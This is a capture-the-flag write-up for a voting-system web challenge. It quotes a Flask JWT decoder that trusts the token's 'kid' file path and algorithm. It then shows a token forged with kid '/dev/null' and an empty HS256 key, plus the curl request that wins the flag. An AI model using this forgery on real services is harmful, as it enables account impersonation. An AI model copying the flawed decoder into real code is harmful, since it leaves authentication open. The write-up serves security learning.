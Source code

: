 ```yaml
---
layout: writeup
title: I can be anyone!
tags: WebX
---
```


## Description

Among the various issues that occured during the voting process, generating a vote code wasn't possible as the system would say "Citizen <> has already voted". It seems like someone is taking everyone elses votes! Can you find out how an attacker may have done this and submit a vote for the citizen ID CIT100 who hasn't voted yet?


The code for the backend of all week 4 challenges was the same, so we also had that.


## Solution


The challenge was about forging a vote for the system that it accepted. Here is the code for vote submissions.

```python
##### VOTE SUBMISSION
@voting_bp.route("/submit-vote", methods=["POST"])
def submit_vote():
    """
    Citizen submits a vote for their chosen party
    """
    try:
        auth_header = request.headers.get("Authorization")
        if not auth_header:
            return jsonify({"error": "Missing Authorization header"}), 401

        payload = decode_jwt_token(auth_header)
        if not payload:
            return jsonify({"error": "Invalid or expired token"}), 401

        data = request.get_json()
        if not data:
            return jsonify({"error": "No JSON data provided"}), 400

        party = data.get("party")
        if not party:
            return jsonify({"error": "Missing required field: party"}), 400

        citizen_id = payload.get("citizenId")
        name = payload.get("name")
        state = payload.get("state")
        vote_identifier = payload.get("vote_identifier")

        if not all([citizen_id, name, state, vote_identifier]):
            return jsonify({"error": "Invalid token payload"}), 401

        db = Database()
        success = db.submit_vote(citizen_id, party, state, vote_identifier)

        if success:
            response_data = {
                "success": True,
                "message": "Vote submitted successfully",
                "citizen_id": citizen_id,
                "party": party,
                "state": state
            }

            if citizen_id == "CIT100":
                response_data["i_can_be_anyone_flag"] = current_app.config["I_CAN_BE_ANYONE_FLAG"]
            elif citizen_id == "CIT1337":
                response_data["the_voting_logs_aint_making_sense_flag"] = current_app.config["THE_VOTING_LOGS_AINT_MAKING_SENSE_FLAG"]

            return jsonify(response_data)
        else:
            return jsonify({"error": "Vote already submitted or database error"}), 409

    except Exception as e:
        return jsonify({"error": f"Failed to submit vote: {str(e)}"}), 500
```

This shows how in order to submit a vote, you need a valid JWT, and you need a `party` value in your request body. Then if the `citizen_id` of your JWT is `CIT100` you get the flag.

Lets look at the JWT code to see if we can forge a JWT token.

```python
import jwt

#...

def decode_jwt_token(token):
    try:
        if token.startswith("Bearer "):
            token = token[7:]

        unverified_header = jwt.get_unverified_header(token)
        kid = unverified_header.get("kid")
        alg = unverified_header.get("alg")

        if kid:
            try:
                public_key_path = kid
                with open(public_key_path, "r") as key_file:
                    public_key = key_file.read()
            except FileNotFoundError:
                return None
            except Exception:
                return None
        else:
            public_key_path = current_app.config["JWT_PUBLIC_KEY_PATH"]
            with open(public_key_path, "r") as key_file:
                public_key = key_file.read()

        payload = jwt.decode(
            token,
            public_key,
            algorithms=[alg]
        )

        return payload

    except jwt.ExpiredSignatureError:
        return None
    except jwt.InvalidTokenError:
        return None
    except Exception:
        return None
```


This looks pretty easy at first, my first thought was with how the algorithm is just directly put in, to try the `none` algorithm. Sadly PyJWT (the import they are using for JWT) does not support the `none` algorithm, so that can't be done. 

Time for the other attack vector, some `kid` injection. Normally in a JWT if it has the `kid` header, and in this case, the `kid` header is used to dictate which key should be used to decrypt the token and thereby authenticate it. Therefore, if you set the `kid` header to point to a value that the user knows the value of, and then sign a JWT token with that key using a symetric algorithm such as `HS256` then you can forge any token you want. Luckily even if we don't know much files on this system, linux has a few preset files that you cant change the values within that we can just use for the symetric key, as we know its value. In this case I am using `/dev/null` this file is completely empty, and anything put in here is removed, so the symettric key in this case would be an empty string.

As such, lets make a JWT token in just the python terminal

```python
>>> import jwt
>>> payload = {"citizenId": "CIT100", "name": "John Doe", "state": "Izzi", "vote_identifier": "ab23b5"}
>>> headers = {"kid": "/dev/null"}
>>> jwt.encode(payload, "", algorithm="HS256", headers=headers)
'eyJhbGciOiJIUzI1NiIsImtpZCI6Ii9kZXYvbnVsbCIsInR5cCI6IkpXVCJ9.eyJjaXRpemVuSWQiOiJDSVQxMDAiLCJuYW1lIjoiSm9obiBEb2UiLCJzdGF0ZSI6Ikl6emkiLCJ2b3RlX2lkZW50aWZpZXIiOiJhYjIzYjUifQ.9G8qG9trT6Dve-73kEdyMvB3of0ZbHooPhoV0d0xyJA'
```

There is our token, time to submit our vote:

```bash
$ curl "http://mobile-app.commission.freedonia.vote/api/voting/submit-vote" -X POST -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsImtpZCI6Ii9kZXYvbnVsbCIsInR5cCI6IkpXVCJ9.eyJjaXRpemVuSWQiOiJDSVQxMDAiLCJuYW1lIjoiSm9obiBEb2UiLCJzdGF0ZSI6Ikl6emkiLCJ2b3RlX2lkZW50aWZpZXIiOiJhYjIzYjUifQ.9G8qG9trT6Dve-73kEdyMvB3of0ZbHooPhoV0d0xyJA" -H "Content-Type: application/json" -d '{"party":2}'
{"citizen_id":"CIT100","i_can_be_anyone_flag":"cysea{impersonation_is_a_crime_b9a43d54e0}","message":"Vote submitted successfully","party":2,"state":"Izzi","success":true}
```

And look at that, we get the flag as the reply `cysea{impersonation_is_a_crime_b9a43d54e0}`
